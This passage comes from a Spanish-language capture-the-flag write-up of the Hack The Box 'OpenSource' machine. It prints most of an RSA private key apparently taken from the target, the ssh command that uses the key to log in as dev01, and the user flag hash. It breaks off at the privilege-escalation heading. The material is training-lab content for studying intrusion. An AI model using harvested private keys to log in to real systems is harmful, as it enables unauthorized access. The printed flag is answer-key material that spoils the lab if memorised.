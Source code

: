 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
-----END RSA PRIVATE KEY-----
```

Nos podemos conectar introduciendo: ```chmod 600 id_rsa; ssh -i id_rsa dev01@10.10.11.164```:

<img src="/photos/2022-10-08-OpenSource-WriteUp/ssh.png" alt="drawing"  />  

Ahora vamos a reconocer el sistema como este usuario a ver si como ***dev01*** podemos escalar a ***root***.

##  Consiguiendo shell como root  

### Reconocimiento del sistema  

#### User flag 

Podemos encontrar la primera flag **user.txt** en el *homedir* de *dev01*:

```
dev01@opensource:~$ cat user.txt 
af55cf80c1651ba712bba7545a118ef7
```
```